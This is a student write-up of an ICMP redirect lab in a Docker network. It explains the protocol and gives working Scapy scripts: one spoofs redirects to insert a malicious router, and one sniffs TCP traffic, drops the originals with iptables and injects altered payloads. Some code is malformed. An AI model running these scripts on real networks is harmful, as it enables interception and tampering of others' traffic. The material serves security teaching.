




# ICMP Redirect Attacks
* In this Lab we need to understand what does ICMP Redirect Messages are, and how they can be used to perform Man-in-the-middle (MITM) attacks.
  
## What does ICMP mean?
* ICMP stands for internet control message protocol
### Purpose and Use:
* ICMP is used for sending error messages and operational information indicating success or failure when communicating with another IP address.
* It is a supporting protocol in the Internet protocol suite and is mainly used for: 
  * Error reporting
  * Network diagnostic (e.g. using **ping** and **traceroute**)
  * Control Messages such as **ICMP Redirect** which is our interest here in this lab, which tells a host to update its routing information to use a better path. 

## What are ICMP Redirect Messages in more details?
* Usually in Networks we have 2 levels of communication
  * Local Area Network: in which all devices are usually connecting with single switch
  * Large Scale Networks: in which we divide the Network into muliple clusters, each cluster is called **sub-net**. these **sub-nets** are connected together using routers. 
* when one device in one sub-net needs to send data to another device in different sub-net, it sends them through routers. 
* in some cases the routers in the path find that there are better pathes in the network in which the data can be sent through, so instead of recieving data and be overwhelmed with far away data, it send **ICMP Redirect Message** to the source device, telling it to send his packets through **The Faster and closer router**.

## MITM Attack
* Now as you can guess, the problem is that attacker can exploit such protocol to spoof a message, and tell the client that his device is a **Faster and Closer router**, and force him to send all his packets through his device, so he can be a man in the middle
* 


## Overview of the network topology


* Our network is divided into 2 subnets
1. Local network:
   * its IP is: **10.9.0.0/24**
   * its mask is 24, this mean that 10.9.0.x are the ips of possible hosts, meaning that we have 2^8 possible hosts = 256 possible hosts - 2 = 254 possible hosts.
   * because 10.9.0.0 and 10.9.0.255 are reserved 
     * 10.9.0.0 -> network address
     * 10.9.0.255 -> broadcast address
   * it contains:
     * the Victim: **10.9.0.5**
     * Hacker (**Mallory**): **10.9.0.105**
     * Malicious Router: **10.9.0.111**
2. Remote network: 
   * its IP is: **192.168.60.0/24**
   * it contains two servers: 
     * server1: **192.168.60.5**
     * server2: **192.168.60.6**
3. the true router
   1. it contains 2 interfaces
      1. local network interface: **10.9.0.11**
      2. remote network interface: **192.168.60.11**
   2. its main role to connect the two networks together.

## Setting up the Network devices


### What is docker? 
* Before we start we need to briefly explain what is docker and why we use it?
* **Docker** is an oper-source platform that allows us to automate deployment, scaling and management of applications using containers.

### What is container
* a container is a lightweight, standalone, and excutable unit that includes:
  * the application code
  * system tools
  * libraries
  * Dependencies
* Everything the software needs to run - **without worrying about differences between enviroments ie: laptop versions, different software versions, and so on.**

### Why do we use Docker? 
* **Consistency Across Environments**: "It works on my machine" is no longer a problem — containers run the same everywhere.

* **Isolation**: Each container runs in its own isolated environment, reducing conflicts.

* **Lightweight**: Containers share the host OS kernel, making them faster and less resource-intensive than full virtual machines.

* **Portability**: Containers can run on any system that supports Docker (Linux, Windows, macOS).

* **Efficiency in Deployment and Testing**: Perfect for labs like yours — you can set up a full network of virtual machines (routers, clients, attackers) in seconds using docker-compose.

* **Version Control**: Docker images can be versioned just like code, making rollback or testing older versions easy.

### In our lab?
* Docker is used to simulate a complete network setup without needing of multiple physical or virtual machines, which makes the experiment much easier and cleaner.
  

## Setting up the lab
1. Navigate to the folder in which you installed **docker-compose.yml**
2. ensure you have docker-compose using this command
    > docker-compose --version
3. if not, install it using these commands:
    > mkdir -p ~/.docker/cli-plugins

    > curl -SL https://github.com/docker/compose/releases/latest/download/docker-compose-linux-x86_64 -o ~/.docker/cli-plugins/docker-compose

    > sudo mkdir -p /usr/local/lib/docker/cli-plugins

    > sudo mv ~/.docker/cli-plugins/docker-compose /usr/local/lib/docker/cli-plugins/

    > sudo chmod +x /usr/local/lib/docker/cli-plugins/docker-compose

    > sudo docker compose version
4. run this command to build the lab:
    > sudo docker compose up
    > 
5. try in another terminal to check for the existing processes
    > sudo docker ps
    
> ! It is recomended not to work on Kali linux but to work on Ubuntu, because there are some conflicts which may face you on kali

6. if you want to stop the infrastructure, just press **CRRL + C** in the first terminal from which you run **sudo docker compose up**
  

## Working with devices
1. we can execute some commands on certain device using this command
   >  docker exec-it (container-id) (command)
2. so we can get a bash on the attacker machine for example using this command:
   >  sudo docker exec -it 535a170f04fd bash
    

## Short description about the devices


* all machines are implemented using basic Linux containers. 
* **Routing** capability is enabled by **ipv4_forward**

### What is **ipv4_forward**
* it is a feature in operating systems that allows a machine like **router** to pass network packets from one network interface to another **ie: forwarding packets which are not meant for itself**
* for example:
  * if computer has 2 network interfaces eth0, and eth1.
  * if IP forwarding is enabled, computer can forward packets recieved on **eth0** to **eth1**
#### Why this is important? 
* because in our lab the main router and the malicious router need to forward traffic between subnets. 
* that is why IP forwarding should be enabled to them in the **docker-compose.yml** file. 
  
### How to check them on linux machines? 
> cat /proc/sys/net/ipv4/ip_forward
> 

* when you see 1, this mean it is active. 

### What is mtr? 
* it stands for **my traceroute**. 
* it is a network diagnostic toll that combines the functionality of:
  * ping: shows if a host is reachable
  * traceroute: shows the path packets take through the network

#### What does it do? 
* it shows us: 
  * All the routers our packet travels to reach the destination
  * How much delay each hop introduces
  * if there is any packet loss at specific hop
#### why to use it? 
* it helps us in analyzing problems like: 
  * slow connections
  * broken routing
  * packet loss
  * testing if the routing setup works well
  * how packetss are being forwarded.
#### How to use it? 
> mtr -n (IP address)

* now lets go and solve the Lab Tasks :)

<br>

## Tasks

### Task1: 


1. Now I will connect to the attacker machine, and try to ping all other devices to ensure that they are up

* Now we can see that all of them responded.
  
2. Now lets check the routes.
   1. the Victim **10.9.0.5**
      *  
      * we can see that we do not have intermediate routers, because we are on the same subnet
    2. Server1 **192.168.60.5**  
       *  
       * we can see the intermediate router ip: **10.9.0.11**
    3. Server1 **192.168.60.6**  
       *  
       * we can see the intermediate router ip: **10.9.0.11**
3. lets check the routes from the server side, server1 for example.
   
4. now lets check routes: 
   1. The Victim: 
      * 
      * we can see we have intermediate router which is 192.168.60.11 as expected
   2. The Attacker: 
      * 
      * we can see we have intermediate router which is 192.168.60.11 as expected
   3. Server2: 
      * 
* TASK1 Done

### Task2: 
* 

* Lets try to understand hints first, then try to go for each of the 4 scenarios. 
  
#### Hints analysis: 
1. what are the differences between **routing tables** and **routing caches**? 
   * Both are used by the os to manage and speed up packet forwarding, but each serve a different purpose.
   * Routing table:
     * Routing table is a static or dynamic table that holds the best known routes to various network destinations.
     * in which we store entries like destination networks, gateways, interface to use, and metrics. 
     * it is consulted when we look for new route, for example if source wants to communicate with a destination which has not communicated with recently.
     * routing tables are relatively stable, only change due to routing protocol updates, or some admin configurations.
   * Routing Cache:
     * its main role is to speed up packet forwarding by avoiding redundant routing table lookups, so if the destination was communicated with recently, it stores the route in the cache to speed up the process.
     * so it stores previously used routes for specific destinations.
     * but it is some how volatile, and the entries there are dynamic.
   * The operations that affect the cache are: 
     * Sending a packet to a new destination
     * reveiving an ICMP redirect message. 
     * ARP Changes or failure
2. what is scapy? 
   * it is a powerful python-based tool, used for packet crafting, sending, sniffing, and manipulating network traffic. 
   * it can create custom packets like (IP, ICMP, TCP)
   * perform network descovery. 
   * craft spoofed packets for our attack ICMP redirect. 
   * so it is clear that we will use it to craft our python script, and craft the ICMP redirect message with fake source and destination. 
   * and spoof packets to redirect traffic via a malicios router.
   * then snif the response to confirm whether the victim accepted the redirect
3. how to check whether the victim machine supports ICMP redirect messaages ?
   * We can check this from the kernel.
    > cat /proc/sys/net/ipv4/conf/all/accept_redirects
   * if we saw 0, then it does not, otherwise it does, so lets try this on the machine.
    > sudo docker ps
   * check the victim machine 
    > sudo docker exec -it (**machineport**) bash
     
   * here we can see 1, this imply that the victim supports the ICMP redirect message
  
#### Crafting python program to send spoofed ICMP messages to the victim
* before we start, we need to understand the protocol more deeply.
* so according to [Cisco](https://www.cisco.com/c/en/us/support/docs/ios-nx-os-software/nx-os-software/213841-understanding-icmp-redirect-messages.html) we can see the description as follows: 
  * 
* and according to [tcpguide](http://www.tcpipguide.com/free/t_ICMPv4RedirectMessages-2.htm#google_vignette), this is how the packet looks like: 
  * 
* [IP (outer)] → [ICMP (Redirect)] → [IP (inner)] → [Original transport header, e.g., TCP or UDP]
   1. IP (outer):
      1. src: the spoofed router ip
      2. dst: the victim ip
      3. proto: 1 (indicates the ICMP)
   2. ICMP Header: 
      1. type: 
       * Type 5: this means redirect message. 
       * code value 0: this means that we redirect datagram for all network to another router, which will be our attacker router for example
       * code value 1: this means that we redirect datagram for specific host, which will be our attacker for example
       * code value 2: redirect for Target of service and network, this mean that packets for certain services are just redirected
       * code value 3: redirect for Target of service of certain host, this mean that packets for certain services for certain host are just redirected
       * gw: IP address of the new gateway.
   3. Inner IP Header: 
      * src: Victim's IP
      * dst: Real destination IP
   4. Inner Transport Header: 
      * sometimes includded     

* As a conclusion, we will use **Host redirect in our lab**

##### Plan:
1. open the attacker machine
2. write python program to send ICMP redirect messages to the victim
3. send the messages to the victim
4. use tcpdump to analyze the network, and check if you successfully redirect the packets to your machine

#### Analyzing 4 different Scenarios:
1. Scenario 1: 
   *  The attacker, its malicious rotuer, and the victim are in the same sub-network
   *  this is the ideal case for ICMP redirect attack.
   *  the attacker just need to spoof a redirect message and send it to the victim
   *  the victim is more likely to accept the redirection and reroute the traffic to the attacker router.
2. Scenario 2: 
   * Malicious Router in a different sub-net
   * this does not make sense, because the victim will think how can I route my traffic to a gateway that I can not reach directly.
3. Scenario 3: 

### Task3 steps: 
* Lets open 4 terminals, in each we have one machine
* 
* You can see the name of each machine written in each terminal (Attacker, Victim, Malicious Router, Host1)
* First step we need to ensure that the victim can communicate with our host:
   * from the victim machine execute this command: 
    > ping  192.168.60.5
   * 
   * now we can see that the server is replying, so they can communicate correctly.
* Second step, check the normal route from the victim to the host
  * from victim machine execute the following command
    > mtr -n 192.168.60.5
  * 
  * now we see that the victim sends to the intermediate router 10.9.0.11 (correct router)
  * send it sends the message to the server **192.168.60.5**
  * this is the normal way
* Third Step, we need to craft the python code on the **attacker machine** to send the spoofed ICMP redirect message
  * this is the code which you can use
  ```python                                
      #!/usr/bin/python3 -> telling linux to run the script using python3

      from scapy.all import * # importing all important functions from scapy library

      '''
         creates the outer ip packet 
            10.9.0.11 -> spoofed router, pretending to be the real router
            10.9.0.5 -> victim ip where the spoofed ICMP redirect will be sent
      '''
      ip = IP(src= '10.9.0.11', dst = '10.9.0.5')

      # creating icmp redirect packet type = 5, 
      # code = 1 means host redirect as explained before
      icmp = ICMP (type=5, code=1)

      # sets the gateway as the mallicious router
      # tells the victim to send traffic to this ip which is the attacker mal router
      icmp.gw = '10.9.0.111'

      # This is the embedded original ip packer from the victim to the server
      # The enclosed IP packet should be the one that triggers the redirect message
      ip2 = IP (src = '10.9.0.5', dst = '192.168.60.5')

      # finally sending the message
      send(ip/icmp/ip2/ICMP()); 

    #This packet tells the victim:
    #"Hey, for traffic to 192.168.60.5, send it via 10.9.0.111 instead of me."
  ``` 
  * then you need to save it, then make it excutable using this command: 
    > chmod a+x **filename.py**
* Fourth step: you need to make a communication between the **victim** and the server, ie: ping from vitim to the server
  * from the victim machine, excute this command: 
    > ping 192.168.60.5 > log.txt
* Fifth step: you should run the script from the **attacker machine**, and theoritically if everything goes correct, you should establish yourself as man in the middle now, and you can see on the victim machine using mtr that the malicious router is now in between.    
* lets try and see if this will work out.  
  * executing ping on victim and route it to .log file
    * > ping 192.168.60.5 > log.txt
    * we need to keep the ping running for a while till we can see the malicious router in the middle between the victim and the server.
  * executing the script on the attacker 
    * 
  * checking the route on the victim machine
    * 
  * now we can see that the malicious router **10.9.0.111** is in the trace route from the victim to the server.
* This mean that TASK3 should be done :)
*  
* but for more illustration, lets use **netcat** and try to send visible messages from the **victim** to the **server1**, and lets see if we will be able to see them on the **malicious router** terminal
* 
* on the server open a port 9090 for example using this command: 
  * > nc -lvnp 9090
* on the victim connect of this port using this command: 
  * > nc 192.168.60.5 9090
* on the attacker run the scrip
  * > python icmp_spoof.py
* on the mal router run the tcp wiht -A to show the ascii
  <!-- * > tcpdump -i eth0 -nn -A -s 0 tcp port 9090 -->
  * > tcpdump -i eth0 -A
* now we can see from the screenshot, that the sent data is seen as ASCII using TCPdump
*  

### Task4 steps: 

* lets try to modify the messages to attack the integrity.
* we need to crafe a python code to do so on the **malicious_router**
  ```python
  # file name is mitm_spoofer.py
    #!/usr/bin/env python3 -> tells bash to use python for excuting the script
  import argparse # used to parse the command line arguments
  from scapy.all import * # used for ICMP redirection
  import subprocess

  # --- Argument Parsing ---
  '''
    Creating command line interface with 
      --src or -s which defines the source address to filter
      --find or -f to find certain pattern
      -r or --replace to replace it with new pattern.
    example usage: 
        python3 modify.py -s 10.9.0.5 -f "failure!" -r "success!"
  '''
    parser = argparse.ArgumentParser(description="MITM Packet Modifier")
    parser.add_argument("-s", "--src", required=True, help="Source IP address to filter")
    parser.add_argument("-f", "--find", required=True, help="Pattern to find in payload")
    parser.add_argument("-r", "--replace", required=True, help="Pattern to replace it with")
    args = parser.parse_args()


    # Your drop rule -> because we need to drop the packets sent from the victim, and then send only our new crafted packets.
    iptables_cmd = [
        "iptables",
        "-A", "FORWARD",
        "-s", args.src, # source ip
        "-p", "tcp", # the used protocol
        "--dport", "9090", # the listening port
        "--string", args.find, # string to be replaced
        "-j", "DROP"
    ]


    # excuting this command
    # iptables -A FORWARD -s 10.9.0.5 -p tcp --dport 9090 -m string --string findString --algo kmp -j DROP
    try:
        subprocess.run(iptables_cmd, check=True)
        print(f"[+] iptables rule added to drop original packets containing: {args.find}")
    except subprocess.CalledProcessError as e:
        print(f"[!] Failed to add iptables rule: {e}")


    # --- Convert inputs to bytes ---
    FIND = args.find.encode()
    REPLACE = args.replace.encode()
    SRC_IP = args.src

    # --- Enforce same length or pad if shorter ---
    if len(REPLACE) != len(FIND):
        if len(REPLACE) < len(FIND):
            REPLACE = REPLACE.ljust(len(FIND), b' ')  # pad with spaces
            print(f"[!] REPLACE padded: {REPLACE}")
        else:
            print("[!] ERROR: --replace is longer than --find, TCP stream would break.")
            exit(1)

  # ensure that the script is running by showing some messages on the console
  print("[*] MITM Packet Modifier Running...")
  print(f"    Filtering packets from {SRC_IP}")
  print(f"    Replacing: {FIND} -> {REPLACE}")

  # --- Packet Interception and Modification ---
  def spoof_pkt(pkt):
    '''
       this function will be excuted on recieving any **pkt**.
       it is responsible for modifying the packets which contains failure! to contain success.


    '''
      if pkt.haslayer(IP) and pkt.haslayer(TCP) and pkt[IP].src == SRC_IP:
          if pkt[TCP].payload:
              data = pkt[TCP].payload.load

              if FIND in data:
                  print(f"[+] Intercepted packet with data: {data}")

                  # Replace the pattern
                  newdata = data.replace(FIND, REPLACE)

                  # Build new packet
                  newpkt = IP(bytes(pkt[IP]))
                  del(newpkt.chksum)
                  del(newpkt[TCP].payload)
                  del(newpkt[TCP].chksum)

                  # Send modified packet
                  send(newpkt / newdata)
                  print("[+] Modified and sent new packet")
              else:
                  print("[-] No target string found.")
          else:
              print("[-] TCP packet with no payload.")
      else:
          pass  # not from target source IP or no IP/TCP

  # --- Start Sniffing ---
  sniff(iface="eth0", filter="tcp", prn=spoof_pkt)


  ```

* Now we need to make this script excutable on the Malicious router: 
  * > chmod a+x modify.py
* Then open a listening port on the host 5
  * > nc -lvnp 9090
* Connect to it from the victim 
  * > nc 192.168.60.5 9090
* Excute the ICMP redirection attack from the attacker device 
  * > python3 icmp_script.py
* Excute the modify.py packet on the malicious router
  * > python3 modify.py --src 10.9.0.5 -f "failure!" -r "success!"
* Now we can see from the screenshot, that the host recieves **Success** even when the victim sends **failure!**

* working cases: 
  * python3 newScript.py --src 10.9.0.5 -f "ifailure!" -r "ipassed"
    * 
  * python3 newScript.py --src 10.9.0.5 -f "failure!" -r "ipassed"
    * 
  * python3 newScript.py --src 10.9.0.5 -f "i failed!" -r "i passed"
    * 
* Task4 is done

### Answering the theoritical questions: 
#### TCP Protocol:
1. if the new pattern we need to replace was longer than the sent packet
   * then there will be an error because the reciever expect certain length, and then it recieves a different one, so it will drop the packet. 
2. if the new pattern we need to replace was shorter than the sent packet:
   1. this should cause the same previous problem, however we can just pad some **spaces** until they are equal in length.   

#### UDP Protocol
* We can replace any string by any other string because there are no condition on length